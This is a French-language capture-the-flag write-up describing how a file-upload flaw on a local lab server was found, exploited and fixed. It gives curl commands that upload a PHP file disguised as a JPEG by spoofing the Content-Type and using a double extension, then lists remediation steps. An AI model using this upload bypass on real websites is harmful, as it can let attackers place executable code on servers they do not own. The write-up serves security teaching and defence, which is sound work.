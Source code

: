### Comment la faille a été trouvée:

1. Depuis la page d'accueil on nous propose d'ajouter une image (voir [img 1](./img1.png)).
Cela nous donne la possibilité d'envoyer du contenu au serveur (voir [img 2](./img2.png)).
Cela pourrait représenter un danger si il est mal configuré => comme envoyer du code malveillant que le serveur ne bloquera pas.

2. Il faut donc qu'il vérifie que on envoie de vraies images, et empêcher l'exécution de code à travers ce moyen.

### Comment la faille a été exploitée:

3. Essayons d'abord d'envoyer une simple image (`.png`): Le serveur refuse le format (`.png`). (voir [img 3](./img3.png)).
On essaye ensuite avec un (`.jpg`) (voir [img 4](./img4.png)): ca fonctionne !

4. Via une requête http il est possible d'outrepasser l'upload simple d'un fichier côté frontend.

5. Pour cela on va utiliser curl déjà disponible sous windows. On va d'abord faire le test avec une img simple type .jpg via cette commande:
```sh
curl -X POST `
  -H "Content-Type: multipart/form-data" `
  -F "uploaded=@test.jpg;type=image/jpeg" `
  -F "Upload=Upload" `
  http://127.0.0.1:8080/?page=upload
```
On a une réponse côté serveur : `<pre>/tmp/test.jpg succesfully uploaded.</pre>`

6. Maintenant on va tenter la même chose mais avec un fichier déguisé => on injecte du code php que l'on fait passer pour une image.

Je crée un fichier php `test.php` que je renomme ensuite `test.php.jpg`

Et je l'envoie sous requête http via curl:
```sh
curl.exe -X POST `
  -H "Content-Type: multipart/form-data" `
  -F "uploaded=@test.php.jpg;type=image/jpeg" `
  -F "Upload=Upload" http://127.0.0.1:8080/?page=upload
```
Le fichier est uploadé avec succès: `<pre>/tmp/test.php.jpg succesfully uploaded.</pre>`

On refait enfin la même chose sauf que là on envoie un fichier `.php` tout court, en le faisant passer pour un jpeg:
```sh
curl.exe -X POST `
  -H "Content-Type: multipart/form-data" `
  -F "uploaded=@test.php;type=image/jpeg" `
  -F "Upload=Upload" http://127.0.0.1:8080/?page=upload
```

7. Et on obtient le flag dans la réponse à notre requête ! (voir [flag_dans_reponse](./flag_dans_reponse.png))

### Comment la faille peut être corrigée:

- Ne jamais se fier uniquement à l’extension du fichier (ex: `.jpg`) pour valider son type.

- Ne jamais se fier au Content-Type fourni par l’utilisateur (ex: `image/jpeg`).

- Utiliser `getimagesize()` ou `exif_imagetype()` pour valider une vraie image.

- Désactiver l'exécution de scripts dans le dossier d'upload (ex: `.htaccess` → `php_flag engine off`).

- Refuser les extensions multiples (`.php.jpg`, `.jpg.php`, `.php.jpg.jpg...`).
